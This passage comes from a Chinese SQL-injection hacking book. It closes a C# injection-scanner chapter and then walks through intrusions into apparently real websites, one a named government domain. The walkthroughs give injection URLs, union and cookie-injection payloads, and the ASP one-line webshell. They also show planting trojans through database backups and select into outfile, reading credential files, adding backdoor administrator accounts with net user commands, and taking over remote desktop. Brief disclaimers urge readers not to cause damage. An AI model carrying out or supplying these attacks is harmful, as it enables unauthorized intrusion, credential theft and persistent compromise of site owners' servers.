    getHttpStatuscodeAndContentLength(my_checkUrl + "%25' and 1=2 and '%25'='", out StatusCode_12, out ContentLength_12);

    if (checkSqlInjection(normalStatusCode, StatusCode_11, StatusCode_12, normalContentLength, ContentLength_11, ContentLength_12))
    {
        // ...
    }
}
```

```csharp
m_injectionType = "搜索型";
listView_vulList.Items.Add(new ListViewItem(new string[] { my_checkUrl, m_injectionType }));

vulCount++;
toolStripStatusLabel_vulCount.Text = "检测到" + vulCount + "个漏洞";
return;
}
}
```

（完整的函数代码参见光盘实例6完整程序）

程序每提取出一个链接地址，都会调用 `checkInjection()` 去检测是否存在漏洞，如果存在注入漏洞，会在内嵌浏览器下面的列表框中以红色显示出来。

最后按 Ctrl+F5 编译运行。在扫描页面输入 www.baidu.com，填好搜索关键字“inurl:.asp site:xxx.cn”，页面载入成功后，会检测当前页面链接存在注入漏洞，并把漏洞显示在下面。这个页面检测完毕以后，通过点击下一页进行翻页，我们的程序会自动进行下一个页面的注入点检测。返回结果如图21所示。


图21 自动进行下一个页面的注入点检测

## 第十三章 经典入侵实例

nohack.me

我们初学者经常会被人称为“脚本小子”，英文 Script Kiddie 是指用别人写的程序的人。许多 Hacker 在公布他们发现的漏洞时，常常也附上一个可以 exploit 漏洞的程序，而脚本小子就是收集这些程序的人，他们可能自己从来没有写过程序，可能对这些程序内部如何工作一无所知，也不知道如何写这些程序，更不知道如何发现系统的漏洞，但是他们知道如何使用 hacker 编写的程序与工具。正是由于这些原因，有很多人在渗透的过程中很排斥工具的使用，他们认为只有手工去做才是技术的表现。但是却忽略了一点——工具能够方便完成工作。我不排斥工具的使用，试想我们遇到一个 access 数据库如何手动去猜解 32 位密码而不使用工具呢？在我们懂得了注入原理，懂得了代码的原理，使用工具并非是“Script Kiddie”，恰恰成了一名“hacker”。

前面介绍了那么多注入的原理，编写了很多实现功能的代码，下面结合一个个实例来检测我们强大的工具。

### 1 ACCESS 注入实例

我们前面实现了一个注入点扫描的工具代码，在上面检测出来的众多注入点中选一个来体验，例如 http://www.xxx.cn/viewcontent.asp?NewsID=937，具体的操作步骤如下：


- 1. 把上面的地址填入第五章“ACCESS 注入检测工具”的“注入点”中，点击“开始检测”，在下面出现“存在数字型注入点、数据库 access”提示信息，如图1所示。
- 2. 点击“猜解表名”，会把检测到的数据库表名显示在上面，如图2所示。
- 3. 选中要猜解的表名“admin”，点击“猜解列名”，如图3所示。
- 4. 选中要猜解的列名“Username、passwd”，点击“猜解数据”，会把检测到的数据内容显示出来，如图4所示。


图4 显示检测到的数据内容

- 5. 在得到管理员的用户名和密码后就可以登录网站的后台了。在登录界面，使用刚才得到的管理员用户名和密码登录进去，如图5所示。

通过我们的注入工具，成功猜解到管理员用户密码，并且登录进管理后台。之后我们就尝试如何去获得网站的 WebShell，常用的方法有上传、备份、写入配置文件等。根据我的经验判断这套网站系统是湖腾展望新闻系统的修改版。我们可以尝试利用下面方法获得 WebShell。


图5 登录后台

发布一篇文章，在文章的标题处写入一句话木马代码，点击添加，发表成功会提示，如图6所示。

```asp
<%execute request(chr(35))%>
```


图6 发表文章成功


图7 更新首页调用ASP

现在我们访问 `http://www.xxx.cn/admin/createasp.asp`，如图7所示。这样我们的 WebShell 就写入 lastnewsxp.asp 页面了。

访问 `http://www.xxx.cn/lastnewsxp.asp`，提示出错，表示我们的一句话木马插入成功，如图8所示。

打开一句话客户端，连接 `http://www.xxx.cn/lastnewsxp.asp`，我们得到了 WebShell，如图9所示。


图8 成功插入一句话木马


图9 得到WebShell

就这样利用自己编写的工具，“黑”了一个网站，这里提醒大家，我们可以帮管理员修补漏洞，或者给管理员发邮件善意地提醒，但千万不要随便修改网站内容。

### 2 MSSQL 注入实例

#### 2.1 MSSQL2000 SA 权限注入

sa 是安装 MSSQL 时内置的用户，默认拥有非常高的权限，可以以系统身份执行各种命令。得到了 sa 权限注入点，这时入侵就会变得非常简单了！sa 权限是可以执行任意命令的，遇到 sa 权限，我们基本上就得到了主机的系统权限，剩下的就是怎么把它变成自己的肉鸡。前辈们有句话：“如果遇到 sa 权限而得不到肉鸡，那是自己技术水平不行”。

把注入点“http://www.xxx.cn/shownews.aspx?typeid=154&subid=157&articid=934”填到第六章“MSSQL2000 注入工具”中，单击开始检测，可以检测到存在“字符型”注入漏洞，数据库为 MSSQL2000 并且错误提示开启了，如图10所示。


在“基本信息”中勾选我们想得到的内容，单击“获取信息”按钮，得到基本信息，包括数据库版本、用户、机器名、数据库等，并且权限是“sysadmin”权限。其中我们可以看到 host_name() 和 servername 是相同的“WEBSERVERBAK”，说明 Web 服务器和数据库服务器是同一台机器，这就更方便我们渗透了，如图11所示。

我们切换到“执行命令”，输入“net user”单击“执行命令”，可以看到执行“net user”返回的内容，说明是可以执行系统命令的，如图12所示。


输入“net user hacker 123456 /add”后单击“执行命令”，出现如图13所示提示，说明我们创建用户的密码不符合安全要求。符合安全要求后，再单击“执行命令”，可以看到执行成功，如图14所示。输入“net localgroup administrators hacker /add”，把用户添加到管理员组，然后利用刚才添加的管理员登录服务器的远程终端服务（3389），如图15所示。利用一个 sa 权限的注入点结合我们的工具很容易就得到一台很不错的肉鸡了，剩下的怎么玩就随便你了。记住一点，不要做坏事，要及时提醒管理员存在漏洞。

```text
net user hacker 1234567890zzh! /add
net localgroup administrators hacker /add
```


图14 成功添加用户


图15 成功登录远程桌面

#### 2.2 MSSQL2000 DB_OWNER 权限注入

DB_OWNER 中文意思是“数据库拥有者”，它不能通过一些敏感的扩展存储过程来执行系统命令。但是可以添加、删除数据库，建表、删表，备份数据库，执行某些存储过程等，可以读取注册表、列目录和备份数据库。把注入点“http://www.xxx.com/list.aspx?name=138”填到第六章“MSSQL2000 注入工具”中，单击开始检测，可以检测到存在“字符型”注入漏洞，数据库为 MSSQL2000 并且错误提示开启了。在“基本信息”中勾选我们想得到的内容，单击“获取信息”按钮，得到基本信息，包括数据库版本、用户、机器名、数据库等，可惜权限是“db_owner”权限。我们可以看到 host_name() 和 servername 是相同的“WH-2QHV8P6TVHJ”，说明 Web 服务器和数据库服务器是同一台机器。这样虽然不是 sa 权限，但是我们可以通过备份数据库到网站物理路径的方式得到网站的 WebShell，如图16所示。切换到“列目录”选项，点击右面的列目录，就会把硬盘上面的目录信息显示出来。例如我们列出 D 盘下的文件系统，返回结果如图17所示。

寻找网站目录的小技巧：

- 1) 一般很少有人把网站存放在系统盘下；
- 2) 管理员为了自己管理方便，很少会把网站放在很深的目录下，一般都比较容易找到；
- 3) 如果发现类似 www、wangzhan、web 或以网址中的一些字符串命名的文件夹要特别留意。


图16 获取到的系统基本信息


图17 列出D盘下的文件

首先从 D 盘开始，一个目录一个目录地浏览，发现“d:\www”很可能是存放网站的目录。我们继续列出“d:\www”下的文件系统，直到我们找到目录“d:\www\web\xxxxx.com\wwwroot\”和网站的名字一样，很可能就是网站的物理路径了。为了证实确实是网站的路径，随便从列出来的文件中找几个文件访问，发现确实存在，说明是网站的目录，如图18所示。


图18 列出网站目录及文件


图19 获取WebShell成功

得到了网站的物理路径，并且是 db_owner 权限，就可以利用备份数据库功能上传 ASP 木马了。切换到“获取 WebShell”选项，填好网站的路径 d:\www\web\xxxxx.com\wwwroot\pois0n.asp，执行方式选择“backup_log”，点击“获取 WebShell”，执行完毕后我们访问 http://www.xxxxx.com/pois0n.asp 会出现一堆乱码，说明获取 WebShell 成功了，如图19所示。

这时使用一句话木马的客户端连接 http://www.xxxxx.com/pois0n.asp，就会出现一个有很多垃圾数据却很有用的 ASP 木马页面。就这么简单得到一个 WebShell，如图20所示。


图20 得到的WebShell界面

输入密码登录后界面如图21所示。


图21 登录后的 WebShell 界面

#### 2.3 MSSQL2005 SA 权限注入

在 MSSQL2005 中 sa 也是 MSSQL 安装时内置的用户，默认拥有非常高的权限，可以以系统身份执行各种命令。但是在 MSSQL2005 中为了安全起见，很多危险的存储过程默认是关闭的，我们只能先开启这些存储过程才能去利用。

把注入点“http://01.xxx.com/news.aspx?nid=34”填到第七章“MSSQL2005 注入工具”中，单击开始检测，可以检测到存在“数字型”注入漏洞，数据库为 MSSQL2005 并且错误提示开启了。

在“基本信息”中勾选我们想得到的内容，单击“获取信息”按钮，得到基本信息，包括数据库版本、用户、机器名、数据库等，并且权限是“sysadmin”权限。其中我们可以看到 host_name()=ABC-JJOY6QBJW4T、servername=CCT-SJ0R8SULE19 是不同的，说明 Web 服务器和数据库服务器是分开的，这样利用 sa 权限我们就只能先想办法得到数据库服务器的权限了，如图22所示。


图22 获取到的系统基本信息

我们切换到“执行命令”，输入“ping www.baidu.com”，然后单击“执行命令”，看数据库服务器能否连接外网；如果不能，那我们基本上就要换目标了。可以看到执行“ping www.baidu.com”返回的内容，说明数据库服务器可以连接外网，如图23所示。


图23 数据库服务器可以连接外网

输入“ipconfig /all”然后单击“执行命令”，查看一下数据库服务器的 IP 信息。我们可以看到数据库服务器居然有外网 IP，如图24所示。

我们“ping 01.xxx.com”查看 Web 服务器的 IP 信息，发现和数据库服务器返回的 IP 在一个网段内，如图25所示。

输入“net user hacker 123456 /add”然后单击“执行命令”，添加用户。


图24 数据库服务器的 IP 信息


图25 Web 服务器和数据库服务器在同一网段

输入“net localgroup administrators hacker /add”，把用户添加到管理员组，然后利用刚才添加的管理员登录服务器的远程终端服务（3389）。登录的时候返回信息如图26所示。


图26 超出最大连接数


图27 已经登录的用户

输入“query user”然后单击“执行命令”，查看当前有哪些用户登录了，返回结果如图27所示。

输入“logoff 2”然后单击“执行命令”，把第二个登录的用户踢掉，最后利用刚才添加的管理员登录服务器的远程终端服务，返回结果如图28所示。


图28 成功登录远程桌面

### 3 MYSQL 注入实例

#### 3.1 MYSQL 读写系统文件实例

打开一个链接 http://www.xxx.cn/v_tpxw.php?id=317，分别提交 and 1=1 和 and 1=2，一个返回正常，一个返回错误页面，说明存在注入漏洞，如图29及图30所示。把注入点“http://www.xxx.cn/v_tpxw.php?id=317”填到第八章“MYSQL 注入工具”中，单击开始检测，提示没有检测到注入点，如图31所示。我们加入关键字，重新检测，可以检测到存在“数字型”注入漏洞，数据库为 mysql5.x，如图32所示。


我们开始匹配 union 字段数，提交 `http://www.xxx.cn/v_tpxw.php?id=317 order by 10/*`，返回错误页面，说明字段数是小于 10 的，如图33所示。


```text
http://www.xxx.cn/v_tpxw.php?id=317 order by 10/*
```


提交 `http://www.xxx.cn/v_tpxw.php?id=317 order by 5/*`，返回正确页面，说明字段数是大于等于 5 的。

```text
http://www.xxx.cn/v_tpxw.php?id=317 order by 5/*
```


图34所示。我们继续提交，直到 `http://www.xxx.cn/v_tpxw.php?id=317 order by 7/*` 返回正确页面，提交 `http://www.xxx.cn/v_tpxw.php?id=317 order by 8/*` 返回错误页面，说明字段数大于等于 7 并且小于 8 个，可以确定字段数为 7。


我们接着提交 `http://www.hydrojl.gov.cn/v_tpxw.php?id=317 and 1=2 union select 1,2,3,4,5,6,7/*`，返回结果如图35所示。


在返回的页面上出现了数字“5”，对应我们 URL 中的数字“5”。我们用 `user()` 内置函数换掉它，继续提交 `http://www.hydrojl.gov.cn/v_tpxw.php?id=317 and 1=2 union select 1,2,3,4,user(),6,7/*`，返回结果如图36所示。在页面中“5”的位置就会显示出当前数据库用户，这就是我们 union 查询需要用到的显示字符串字段。


在“mysql 注入工具”中的“字段数”填上 7，在“显示位置”填上 5，在“基本信息”中勾选我们想得到的内容，单击“获取信息”按钮，得到基本信息，包括数据库版本、用户、当前数据库等，如图37所示。

```sql
http://www.xxx.cn/v_tpxw.php?id=317 order by 7/*
http://www.xxx.cn/v_tpxw.php?id=317 order by 8/*
http://www.hydrojl.gov.cn/v_tpxw.php?id=317 and 1=2 union select 1,2,3,4,5,6,7/*
http://www.hydrojl.gov.cn/v_tpxw.php?id=317 and 1=2 union select 1,2,3,4,user(),6,7/*
```

## 精通SQL黑客注入编程

切换到“读取文件”，输入“c:\boot.ini”然后单击“读取文件”，尝试读取文件“c:\boot.ini”成功，说明服务器是 Windows 系统（如果是 Linux 系统，那我们就去尝试读取 /etc/passwd 文件），并且当前数据库用户具有读取文件的权限，如图38所示。


图38 成功读取 boot.ini

在 Windows 系统中，经常要尝试读取的文件一般有：

- X:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini
- X:\Program Files\Serv-U\ServUDaemon.ini
- C:\windows\my.ini
- C:\Program Files\MySQL\my.ini
- C:\boot.ini


图39 读取 ServUDaemon.ini 成功

输入“C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini”然后单击“读取文件”，尝试读取文件没有成功，说明服务器可能没有该文件。输入“D:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini”，尝试读取文件成功，通过返回的文件内容，我们可以看到 Serv-U 的版本、用户和加密密码信息等，最重要的是我们可以通过里面的内容分析出网站目录的物理路径，如图39所示。


图40 判断可以使用 select into outfile

最后通过配置文件我们分析出服务器上存在很多网站，找到一个同服务器的网站域名“www.yyy.cn”是存放在“E:\qtkj\www.yyy.cn”下面的。得到了网站的物理路径，我们最想得到的应该是能否利用 select into outfile 直接把木马写入到网站目录里面。

我们提交 `http://www.xxx.cn/v_tpxw.php?id=317 and 'a'='a' and 1=1`，返回了正常页面，说明 PHP 中 magic_quotes_gpc 设置为 OFF，并且没有使用 addslashes() 等函数过滤单引号或把单引号转义。这样我们就可以使用 select into outfile 了，如图40所示。

切换到“写入文件”，输入文件物理路径“e:\\qtkj\\www.yyy.cn\\hackershell.php”，这里我们用了两个“反斜杠”，然后单击“写入文件”，如图41所示。


图41 将木马写入文件

打开一句话木马客户端去连接“http://www.yyy.cn/hackershell.php”，查看环境变量，我们的木马被成功写入到了 www.yyy.cn 的根目录下，如图42所示。


图42 成功保存木马

然后通过一句话木马上传一个功能比较强大的 php 木马上去，也就是常听说的小马传大马，其中一句话木马就是“小马”，功能强大的 php 木马就是“大马”，如图43所示。


图43 上传大马

访问我们刚刚上传的 php 木马，木马界面如图44所示。


图44 大马界面

通过 php 木马的文件浏览功能，我们查看服务器上的文件，找到了 mysql 的数据库连接文件，里面包含了 mysql 数据库的 root 用户密码，如图45所示。


图45 获取 mysql 数据库的 root 用户密码

我们通过上传 mysqlrootkit.php（一个利用 mysql 数据库 root 用户提升权限的文件），尝试利用 root 提权，但没有成功。服务器安装了 Serv-U，尝试用 php 木马自带的 Serv-U 提权功能进行提权，但是提示登录失败。继续使用浏览功能查看服务器上的文件，发现服务器安装了 MSSQL 数据库，在 E 盘某个目录下找到了连接 MSSQL 数据库的配置文件，里面包含了 sa 用户的密码，如图46所示。这台 MSSQL 数据库通过外网是可以连接的，我们通过查询分析器直接连接到目标，添加管理员用户 hacker，如图47所示。然后利用刚才添加的管理……


图46 MSSQL 数据库的配置文件


图47 外网连接，添加用户


图48 成功登录远程桌面

## 3.2 MYSQL

### information_schema

### 遍历数据库实例

打开 `http://library.xxx.cn/news/readnews.php?id=148`，分别提交 `and 1=1` 和 `and 1=2`，一个返回正常，一个返回错误页面，说明存在注入漏洞，如图49及图50所示。


图49 返回正常


图50 返回错误

把注入点“http://library.xxx.cn/news/readnews.php?id=148”填到第八章“MYSQL 注入工具”中，单击开始检测，可以检测到在“数字型”注入漏洞，数据库为“mysql5.x”，如图51所示。我们匹配 union 字段数和显示字符的字段位置，最后确定字段数为3，显示字符位置为第1个字段的位置，如图52所示。


在“mysql 注入工具”中的“字段数”填上3，在“显示位置”填上1，在“基本信息”中勾选我们想得到的内容，单击“获取信息”按钮，得到基本信息，包括数据库版本、用户、当前数据库等，如图53所示。


我们切换到“information schema”，通过“information_schema”猜解数据库内容。单击“获取数据库名”，在数据库列表框中会显示所有可用数据库的名称，如图54所示。


选中当前网站数据库“liblnu”，单击“获取表名”，在表列表框中会显示出数据库“liblnu”中的所有用户表，如图55所示。


选中需要猜解的用户表“users”，单击“获取列名”，会显示出用户表“users”中的所有字段，如图56所示。


选中需要猜解的字段“U_Name”“U_Pwd”“U_Level”，单击“获取数据”。


会显示出用户表中所有字段的内容，如图57所示。

得到了管理员用户名和密码后，找到网站的后台登录页面进行登录，如图58及图59所示。

## 4 COOKIE 注入实例

打开一个链接 `http://192.168.1.113/NewsShow.asp?id=6`，提交 `and 1=1`，提示如图60所示，看来是采用了防注入系统。


看来只能尝试防注入系统是否过滤了 COOKIE 提交的数据。

```javascript
javascript:alert(document.cookie="id="+escape("6 and 1=1"));
self.open("http://"+document.location.host+document.location.pathname);void(0);
```

返回结果和直接访问 `http://192.168.1.113/NewsShow.asp?id=6` 内容一样，如图61所示。

```javascript
javascript:alert(document.cookie="id="+escape("6 and 1=2"));
self.open("http://"+document.location.host+document.location.pathname);void(0);
```


返回结果会提示“数字不在接受范围内”，如图62所示。

通过上面的测试我们可以确定防注入系统没有过滤 COOKIE 提交的数据，并且这个页面是存在 COOKIE 注入的。如果通过在地址栏构造注入语句逐位去猜解内容将是一个十分繁琐的过程，好在我们前面已经写好了一个 COOKIE 注入的工具。


打开第九章的“COOKIE 注入工具”，把注入点“http://192.168.1.113/NewsShow.asp?id=6”填到“COOKIE 注入工具”中，填好注入类型和关键字，如图63所示。


单击“猜解表名”，在表名列表框中会显示出猜解到的用户表，“Idea_Admin”可能是管理员表，如图64所示。


选中“Idea_Admin”表，单击“猜解列名”，在列名列表框中会显示出猜解到的“Idea_Admin”的字段“username”“password”“id”，如图65所示。

选中要猜解的字段，单击“获取数据”，开始猜解管理员用户密码信息，最后得到用户名和密码，如图66所示。


得到的密码“7bbd73250516f069”是经过 MD5 加密的，拿到 www.cmd5.com 查询，得到明文“admin123”。

得到了管理员用户名和密码，就可以利用来登录网站后台，如图67所示。


来到“网站配置”，在上传文件“允许软件类型”添加一个“asp”文件类型，如图68所示。

来到“资源下载”，在“添加下载”上传我们的 asp 木马，提示上传成功，给出上传后的地址“Upload/Down-Files/2009092611462316393.asp”，如图69所示。

最后访问 Web-Shell 地址 `http://192.168.1.113/Upload/Down-Files/2009092611462316393.asp`，这样就又得到了一个网站的权限，如图70所示。


图69 上传木马


图70 得到

## 后记

## 关于我

我，八十年代后，生于北方小镇。固执、任性、坚决、完美主义者，永远相信世界上有我追求的完美并为此固执等待。或许这就是我痴迷于“hack”技术的原因。

## 关于黑客

黑客就是我心目中的侠客，他们追求技术完美与精神的自由。而我只是一名安全爱好者或者安全从业者，重复着很多人曾经走过和正在走着的从黑到白的那条路。

## 关于本书

授人以鱼，不如授人以渔，正是写作这本书的初衷。试想一个 MySQL 数据库的注入点如果不支持“/*”注释符，可能大部分主流的注入工具都无法正常工作，如果你认真看完这本书你会发现只需要简单修改代码的几个字符就可以实现正常的功能。写作过程是漫长的，调试每一行代码是枯燥的，当终于坚持下来落笔时，一种如释重负的感觉。希望你能在本书中学到一点点有价值的东西，那就是对我最大的肯定。